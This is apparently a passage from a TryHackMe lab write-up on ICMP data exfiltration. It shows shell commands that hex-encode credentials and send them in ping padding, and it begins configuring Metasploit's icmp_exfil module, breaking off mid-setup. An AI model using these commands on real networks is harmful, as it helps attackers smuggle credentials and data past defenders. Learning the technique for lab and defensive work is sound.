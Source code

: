 >**-p _pattern_**
>
>You may specify up to 16 ''pad'' bytes to fill out the packet you send. This is useful for diagnosing data-dependent problems in a network. For example, **-p ff** will cause the sent packet to be filled with all ones.

This option allows the user to **specify 16 bytes of data in hex format** to send through the packet. For example, if we want to exfiltrate the following credentials: `thm:tryhackme`, we would need to first convert the data to hex, and then pass them to the `ping` command via the `-p` option:

```shell
# convert data to hex
echo "thm:tryhackme" | xxd -p
#  74686d3a7472796861636b6d650a

# pass the hexed data to ping via the pattern option
ping 10.10.98.183 -c 1 -p  74686d3a7472796861636b6d650a
```

By capturing the above packet in Wireshark, we can see that we successfully managed to perform manual ICMP data exfiltration!

![Manul ICMP Data Exfiltration - Wireshark capture](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/6a086470f770c67c0a07f9572088e5e1.png)

### 6.2 ICMP Data Exfiltration with Metasploit

Metasploit has a module called `icmp_exfil` which uses the same technique we just performed. This module waits to receive a trigger value in order to start writing the data to the disk and then for another trigger value in order to stop. These trigger values are called **Beginning of File (BOF)** and **End of File (EOF)**, respectively.

![Metasploit icmp_exfil BOF and EOF](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b45715c44b5998fa9bf6a989b1e0d8d6.png)

1. Let's see how to setup Metasploit's `icmp_exfil` module:

    ```shell
    # launch metasploit
    $ sudo msfconsole

    # use the icmp_exfil module
    msf6 > use auxiliary/server/icmp_exfil

    # define the required options
    msf6 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKER_IP
    # BPF_FILTER => icmp and not src ATTACKER_IP
    msf6 auxiliary(server/icmp_exfil) > set INTERFACE tun0
    # INTERFACE => ens5
